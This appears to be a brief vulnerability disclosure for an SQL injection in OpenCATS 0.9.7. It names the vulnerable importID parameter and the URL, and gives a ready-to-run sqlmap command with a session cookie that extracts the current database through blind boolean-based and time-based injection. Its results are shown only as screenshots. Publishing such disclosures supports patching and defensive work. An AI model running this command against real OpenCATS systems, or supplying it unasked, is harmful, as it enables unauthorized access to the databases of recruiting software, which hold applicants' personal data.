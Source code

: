 # Opencats-0.9.7-sql injection in importID
Date: 2022/12/24

Exploit Author: Sakura501

Vendor Homepage: https://www.opencats.org/

Software Link: https://github.com/opencats/OpenCATS

Version: 0.9.7

Tested on: Windows11/PHP7.3.4/MySQL5.7.26

## URL
`http://192.168.2.153/src/opencats/index.php?m=import&a=viewerrors&importID=1`

## sqlmap-POC
```
sqlmap -u "http://192.168.2.153/src/opencats/index.php?m=import&a=viewerrors&importID=1" --cookie="CATS=3vuotomfflasp6drb4vtimpkqc" --current-db  -p "importID" --flush-session
```

## Result-Show
It exists two sql injections, one is boolean-based blind injection, the other is time-based blind injection.

![image](https://user-images.githubusercontent.com/71068573/209432445-ae54e3c9-83de-424e-9037-dbac2efba773.png)

![image](https://user-images.githubusercontent.com/71068573/209432499-4e6f1fa2-1754-43ca-8dab-698683aa75e8.png)

![image](https://user-images.githubusercontent.com/71068573/209432511-88339329-523c-4fa0-ae34-fee2747c5e36.png)
